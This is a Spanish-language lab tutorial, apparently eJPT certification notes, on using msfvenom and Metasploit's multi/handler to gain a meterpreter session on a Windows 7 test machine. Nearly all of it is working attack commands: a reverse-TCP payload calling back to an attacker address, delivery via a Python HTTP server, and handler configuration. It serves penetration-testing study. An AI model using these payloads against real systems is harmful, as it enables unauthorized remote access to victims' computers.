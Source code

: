 
---
- TAG: #Payloads #Metasploit #Msfvenom
---
# Uso de Msfvenom para Crear Payloads

Este es un repositorio muy importante ya que aprenderemos a utilizar **Msfvenom** para crear nuestros propios payloads y ganar acceso a nuestras máquinas objetivo. Es una herramienta fundamental que forma parte de **Metasploit** y nos permite crear archivos o ejecutables maliciosos para obtener acceso a una máquina al ejecutarlos, algo que seguramente utilizaremos en la eJPT.

## Herramientas Necesarias

- **Máquina atacante**: Kali Linux
- **Máquina objetivo**: Windows 7

## Crear un Archivo .exe Malicioso

Desde nuestra máquina Kali, nos ubicamos en el escritorio y nos logeamos como root. Empezaremos a crear un archivo `.exe` malicioso. La estructura del comando consta de poner el payload, la IP de la máquina atacante, el puerto de la máquina atacante; casi siempre es la misma estructura:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=1.2.3.4 LPORT=443 -f exe -o pwned.exe
```

Si hacemos un `ls`, veremos que se habrá creado con éxito.

## Compartir el Archivo Malicioso

Este archivo lo compartiremos por el puerto `80` de la siguiente manera:

```bash
python -m http.server 80 
```

Desde nuestra máquina víctima, ingresamos al navegador, introducimos la IP de la máquina atacante y se nos mostrará el archivo. Le damos click para descargarlo.

## Preparar la Máquina Atacante para Recibir la Conexión

Hemos aprendido cómo pasar un archivo malicioso creado con **msfvenom**, ahora falta la otra mitad más importante: preparar la máquina atacante para recibir la conexión. Para ello, utilizaremos una herramienta de Metasploit llamada **multi/handler**. Es una herramienta que utilizaremos mucho en la eJPT.

Abrimos **msfconsole**. Aunque también tenemos la opción de usar **netcat** para recibir conexiones, en el examen recomiendo utilizar más **multi/handler**.

Dentro de Metasploit, realizamos el siguiente comando:

```msfconsole
use multi/handler
```

Con esto cargaremos el módulo y podemos ver lo que nos pide. En este caso, nos pide un **LHOST** y un **LPORT**.

Recuerden que habíamos asignado un **windows/x64/meterpreter/reverse_tcp**, es decir, está configurado para recibir un meterpreter y no una **shell**. Así que dentro de este payload también tenemos que asignarle un meterpreter. Lo podemos cambiar de la siguiente manera:

```msfconsole
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```

Podremos observar que al hacer un `show options`, el apartado de **Payload options** estará cambiado por nuestro payload.

Recuerden que habíamos asignado el puerto **443**, así que lo cambiamos:

```msfconsole
set LPORT 443
```

Ahora le asignamos la dirección IP de nuestra máquina atacante Kali Linux:

```msfconsole
set LHOST 1.2.3.4
```

Una vez hecho esto, está todo correctamente configurado para que nuestra máquina atacante entable una conexión.

## Ejecutar el Archivo en la Máquina Objetivo

Debemos ir a nuestra máquina **Windows 7** y ejecutar el archivo `.exe` que habíamos descargado por el servidor. Veremos que obtenemos acceso a la máquina. Recuerden que la dirección IP y el puerto en ambos lados siempre deben ser de la máquina atacante.

Si han seguido todos los pasos, seguramente estarán dentro de la máquina Windows :)

